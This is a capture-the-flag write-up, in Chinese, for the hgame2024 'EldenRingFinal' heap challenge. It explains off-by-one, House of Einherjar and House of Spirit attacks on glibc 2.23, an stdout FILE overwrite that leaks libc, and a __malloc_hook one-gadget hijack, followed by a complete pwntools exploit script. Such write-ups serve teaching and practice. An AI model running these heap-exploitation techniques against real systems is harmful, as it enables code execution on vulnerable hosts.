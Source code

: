 ```yaml
---
title: hgame2024 week4 - EldenRingFinal
date: 2024/2/28 18:46:00
tags:
    - IO arb write
    - heap - unsortedbin
    - off-by-one
    - House of Einherjar
    - House of Spirit
    - libc2.23
---
```


~~标题依旧是没活~~  
*you need to learn some FILE IO knowlegde first*

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

众所周知，`.bss`段上存在`stdout`, `stdin`, `stderr`三个指针指向glibc中的`IO_FILE`，
又知修改`_IO_2_1_stdout_`的`_IO_write_base`，将其覆写为小于`_IO_write_ptr`的值，
可以在执行`puts`等函数时输出从base到ptr的字节，从而在没有`show`的情况下泄露libc

由于没开PIE，我们可以先利用Off-by-One打 **House of Einherjar** 造成Heap Overlap，以进行 Arbitrary Alloc，
利用字节错位分配堆块到`stdout`地址低处，打 **House of Spirit** 伪造堆块并修改`stdout`，
使其指向`_IO_2_1_stdout_`低地址处字节错位  
然后依次将堆块分配到伪造的堆块、`_IO_2_1_stdout_`低地址处（在`_IO_2_1_stderr_`中），
然后覆写`_IO_2_1_stderr_`结构体直到覆写`_IO_2_1_stdout_`的`_flags`为`0xfbad1800`，
以及其`_IO_write_ptr`为`_IO_2_1_stdout_`的`_chain`的地址（指向`_IO_2_1_stdin_`），
这样，在`add_note`结束时运行`puts("success!")`的时候就会泄露出libc（即`_IO_2_1_stdin_`的地址）  
要注意的是远程地址有偏移，在修改`stdout`时，由于需要修改2个字节，因此要爆破1/16的概率

> 一开始我借`stdout`为跳板，改`stdin`为0(prev_size)，想打`stderr`，结果发现，`scanf`会用到`stdin`！
> 也就是在执行`scanf`的时候直接SIGSEGV了，于是我就倒着找，在`stdout`之前的只读段中找跳板（libc非0的最高字节），
> 由于malloc时不会写入数据，因此这么做不会报错

在leak了之后，恢复堆结构，再打 **House of Einherjar** ，分配到`&__malloc_hook - 0x23`的位置写OneGadget即可

## EXPLOIT

```python
from pwn import *
import inspect
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./eldering4')
        if lo & 2:
            gdb.attach(sh, gdbscript='p /x &_IO_2_1_stdout_')
    else:
        sh = remote('139.224.232.162', 31630)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/libc.so.6')
    elf = ELF('./eldering4')

    def eofHandler():
        warn(f'eof detected! running line {inspect.stack()[2][2]}') # print the line currently running
        if sh.can_recv():
            info(str(sh.recv()))
        sh.close()
        return None

    def addPage():
        sh.sendlineafter(b'>', b'1')

    def delPage(page:int):
        sh.sendlineafter(b'>', b'2')
        sh.sendlineafter(b'page', str(page).encode())

    def addNote(page:int, size:int, content:bytes=b'\n') -> bytes:
        sh.sendlineafter(b'>', b'3')
        sh.sendlineafter(b'to?\n>', str(page).encode())
        sh.sendlineafter(b'size:\n>', str(size).encode())
        sh.sendafter(b'tent:\n>', content)
        try:
            ret = sh.recvuntil(b'success!', False, 1)
        except EOFError:
            return eofHandler()
        if not ret:
            return eofHandler()
        elif ret[:1] == b'\n': # sometimes there is a '\n', sometimes not
            ret = ret[1:]
        return ret

    def delNote(page:int, note:int):
        sh.sendlineafter(b'>', b'4')
        sh.sendlineafter(b'>', str(page).encode())
        sh.sendlineafter(b'>', str(note).encode())

    chunkHead = elf.symbols['stdout'] - 0x2b # byte misalignment
    wStdoutOffset = (libc.symbols['_IO_2_1_stdout_'] - 0x43) & 0xfff
    if lo & 4:
        bruteByte = int(input('input last WORD of &_IO_2_1_stdout_: 0x'), 16) & 0xf000
    else:
        bruteByte = 0x4000
    wStdoutOffset += bruteByte
    bStdoutChain = (libc.symbols['_IO_2_1_stdout_'] + 0x68) & 0xff

    # alloc some 0x31 chunks in case allocations of structs influence our work
    addNote(0, 0x20) # 1
    addNote(0, 0x20) # 2
    addNote(0, 0x20) # 3
    addNote(0, 0x20) # 4
    addNote(0, 0x20) # 5
    delNote(0, 1)
    delNote(0, 2)
    delNote(0, 3)
    delNote(0, 4)
    delNote(0, 5)

    # house of einherjar #1, alloc to stdout - 0x2b to modify stdout
    addNote(0, 0x88) # 1
    addNote(0, 0x68) # 2
    addNote(0, 0x88) # 3
    addNote(0, 0x8) # 4 guard chunk, preventing chunks from being merged into top chunk
    delNote(0, 1)                                       # release in advance
    delNote(0, 2)
    addNote(0, 0x68, b'0'*0x60 + p64(0x100) + p8(0x90)) # 5 zero out PREV_INUSE of next chunk
    delNote(0, 3)                                       # cause heap overlap
    delNote(0, 5)                                       # now chunk 5 is in unsorted bin and fastbin
    addNote(0, 0x98, b'0'*0x88 + p64(0x71) + p64(chunkHead)) # 5 mod chunk 5's fd in fastbin
    addNote(0, 0x68) # 6 chunk 5 in fastbin
    addNote(0, 0x68, b'\0'*0x3 + p64(0)*2 + p64(0x71) + p16(wStdoutOffset)) # 7 alloc below stdout, force a chunk and mod stdout, 1/16 chance
    delNote(0, 5)
    delNote(0, 6)                                       # restore heap layout (like line 80)

    # house of einherjar #2, alloc to stdout and mod _IO_write_base
    addNote(0, 0x98, b'0'*0x88 + p64(0x71) + p64(chunkHead + 0x1b)) # 8
    addNote(0, 0x68) # 9
    addNote(0, 0x68) # 10
    ret = addNote(0, 0x68, b'\0'*0x33 + p64(0xfbad1800) + p64(0)*3 + p8(bStdoutChain)) # 11
    if ret is None:
        return 0

    stdin = u64(ret[:6] + b'\0\0')
    libcBase = stdin - libc.symbols['_IO_2_1_stdin_']
    success(f'\x1b[33mleak libcBase: {hex(libcBase)}\x1b[0m')
    mallocHook = libcBase + libc.symbols['__malloc_hook']
    ogg = libcBase + 0xf0897

    # house of einherjar #3, alloc to __malloc_hook and write one gadget
    delNote(0, 9)
    delNote(0, 8) # restore heap layout
    addNote(0, 0x98, b'0'*0x88 + p64(0x71) + p64(mallocHook - 0x23)) # 12
    addNote(0, 0x68) # 13
    addNote(0, 0x68, b'\0'*0x13 + p64(ogg)) # 14
    addPage() # trigger mallocHook

    sh.clean()
    sh.interactive()
    return 1
```
